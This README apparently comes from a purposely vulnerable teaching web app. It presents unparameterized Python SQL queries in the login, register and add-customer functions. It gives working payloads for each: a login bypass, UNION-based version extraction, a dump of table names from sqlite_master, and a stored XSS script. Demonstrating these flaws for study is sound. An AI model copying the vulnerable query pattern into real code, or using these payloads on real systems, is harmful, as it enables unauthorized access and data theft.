 # Vulnerable Web Application Demo

This is a purposely vulnerable web project built for educational and testing purposes only.  
It demonstrates common web security issues including:

- SQL Injection (SQLi)
- Cross-Site Scripting (XSS)
- Unvalidated input handling

## Included Vulnerabilities

## 1) SQL Injection in Login Function

**Vulnerable Code:**
```python
query = f"SELECT * FROM users_user WHERE username = '{username}' AND password = '{password}'"
```

- Directly inserts user input (`username` and `password`) into an SQL query.
- No input validation or parameterized queries.

**Exploit Payload:**
```sql
' OR '1'='1' --
```

**Query becomes:**
```sql
SELECT * FROM users_user WHERE username = '' OR '1'='1' --' AND password = ''
```
- `'1'='1'` is always **true**, so the attacker can log in without credentials.

---

## 2) SQL Injection in Register Function

**Vulnerable Code:**
```python
user_exists_query = f"SELECT * FROM users_user WHERE username = '{username}' OR email = '{email}'"
```

- **Username and email are directly embedded** in the SQL query.
- No **input sanitization** or **parameterized queries**.

**Exploit Payload:**
```sql
' UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--
```

**Query becomes:**
```sql
SELECT * FROM users_user WHERE username = '' UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--' OR email = ''
```
- **Extracts the SQLite version** and assigns it as `username`.

---

## 3) SQL Injection & Stored XSS in Add Customer Function

**Vulnerable Code:**
```python
insert_query = f"""
    INSERT INTO users_customer (first_name, last_name, customer_id, phone_number, email)
    VALUES ('{first_name}', '{last_name}', '{customer_id}', '{phone_number}', '{email}')
"""
```

- **Directly embeds user input into SQL without sanitization.**
- Allows **SQL Injection** and **Stored XSS**.

### **SQL Injection Payload:**
```sql
test' || (SELECT group_concat(name) FROM sqlite_master WHERE type='table') || (SELECT hex(randomblob(4))) || '@example.com' || '--
```

**What Happens?**
- Inserted as a client name in the customer list.
- Displays all **database table names** on the View Customer page.

### **Stored XSS Payload:**
```html
<script>alert("XSS Attack!");</script>
```

**What Happens?**
- Injected into `first_name`, and every time a user views the customer list, it triggers JavaScript.
- Can lead to **account hijacking** or **session theft**.

---



